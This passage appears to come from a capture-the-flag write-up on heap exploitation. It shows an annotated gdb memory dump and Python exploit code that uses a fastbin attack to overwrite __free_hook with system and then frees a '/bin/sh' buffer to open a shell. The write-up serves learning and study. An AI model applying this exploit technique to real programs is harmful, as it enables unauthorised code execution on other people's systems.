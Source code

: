```c
0x6020a0:       0x4141414141414141      0x0000000000000021 <- fake chunk allows us to free
0x6020b0:       0x0000000000000000      0x0000000000000000
...
0x602120:       0x0000000000000000      0x0000000000000000
0x602130:       0x0000000000000000      0x0000000000000061 <- chunk above global array
0x602140:       0x0000000000000000      0x0000000000000000 <- global array
0x602150:       0x0000000000000000      0x0000000000000000 <- We made NULL
0x602160:       0x0000000000000000      0x0000000000000000 <- We made NULL
0x602170:       0x0000000000000000      0x0000000000000000 <- We made NULL
0x602180:       0x0000000000000000      0x0000000000000000 <- We made NULL
0x602190:       0x0000000000000000      0x0000000000602050 <- idx 11
0x6021a0:       0x0000000000602140      0x0000000000000000
...
```

The next part was a bit of trial and error. I found out that I would need to do 51 allocations of size 0x48 to get right above `__free_hook`. The 52nd allocation of size 0x48 can be used to overwrite `__free_hook` to the address of `system`.

Each time I allocate a new chunk, I also immediately zero out the first 11 indexes of the global array. Of course this is overkill, but I was being lazy.
```python
# Now there is a reference to fake_chunk (at our name) at idx 11
# This can easily be verified by viewing the array in gdb

# Now, this was a bit of trial and error, but I found out that 51 allocations of size 0x48
# was enough to reach just above __free_hook
# Each time we allocate, we zero out the global array immediately
for i in range(51):
    # Allocate using top chunk
    add(0x48, '\x00'*0x48)

    # Redo the fastbin attack to get a chunk above the global array

    # Free our fake_chunk on the name
    free(11)

    # Change fd to point to fake_chunk_above_array
    reintroduce(p64(0) + p64(0x61) + p64(fake_chunk_above_array))

    # Two more allocations, zero out the indexes
    add(0x58, 'A'*0x58)
    add(0x58, p64(0)*11)

# After 51 allocations, we can overwrite __free_hook with system
# We have to keep null bytes before it, otherwise the program will crash (I don't know why)
add(0x48, '\x00'*0x35 + p64(system))
```

After this, I simply reset the name variable's first 8 bytes to `'/bin/sh\x00'`, and then freed it. This calls `system("/bin/sh\x00")`, as explained above.
```python
# Then just put '/bin/sh\x00' into our name array
reintroduce(p64(0) + p64(0x61) + '/bin/sh\x00')

# Call free(fake_chunk), which calls system(fake_chunk), which calls system('/bin/sh\x00')
free(11)

p.interactive()
```
